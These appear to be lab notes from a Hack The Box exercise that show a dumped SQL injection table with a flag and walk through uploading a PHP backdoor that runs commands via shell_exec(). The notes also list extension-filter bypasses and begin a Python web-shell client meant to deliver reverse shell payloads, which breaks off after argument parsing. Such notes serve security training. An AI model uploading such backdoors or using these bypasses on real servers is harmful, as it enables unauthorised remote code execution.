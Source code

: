 ```
| 1       | admin                          | 1          |
| 2       | HTB-User-John                  | 2          |
| 3       | WebServices                    | 3          |
| 8374932 | HTB{THE_FL4G_FOR_SQLI_IS_H3RE} | 736373     |
+---------+--------------------------------+------------+
```

## Arbitrary File Upload
### PHP File Upload via API to RCE
#### Navigate to upload form page
![[rce upload form.png]]
#### Create backdoor.php file and upload
![[backdoorphp 1.png]]
The above allows us to append the parameter cmd to our request (to backdoor.php), which will be executed using `shell_exec()`. This is if we can determine `backdoor.php`'s location, if `backdoor.php` will be rendered successfully and if no PHP function restrictions exist.
![[uploaded.png]]
![[inspector output.png]]
- `backdoor.php` was successfully uploaded via a POST request to `/api/upload/`. An API seems to be handling the file uploading functionality of the application.
- The content type has been automatically set to `application/x-php`, which means there is no protection in place. The content type would probably be set to `application/octet-stream` or `text/plain` if there was one.
- Uploading a file with a .php extension is also allowed. If there was a limitation on the extensions, we could try extensions such as `.jpg.php`,` .PHP`, etc.
- Using something like `file_get_contents()` to identify php code being uploaded seems not in place either.
- We also receive the location where our file is stored,` http://<TARGET IP>:3001/uploads/backdoor.php`.
#### Python script to obtain a shell, leveraging the `backdoor.php` file
```Python
#!/usr/bin/python3

# Import argparse (for system arguments), time (for time), and requests (for HTTP/HTTPS requests), and os (used for operating system commands)
import argparse, time, requests, os

# Define the parser variable that used argparse to provide a description of this script
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs")

# Specify arguments for target, payload, and options, as well as help commands
parser.add_argument("-t", "--target", help="Specify the target host (e.g., http://<TARGET IP>:3001/uploads/backdoor.php)", required=True)
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload (e.g., a python3 reverse shell. IP and Port are required in the payload)")
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t ")

# Define variable for arguments as a variable holding the values of the above arguments so we can do args.option for example
args = parser.parse_args()

# Instruct the script to see if the target option and payload option are included in the arguments and to print the help menu if both are not included
if args.target == None and args.payload == None:
	parser.print_help()
	
```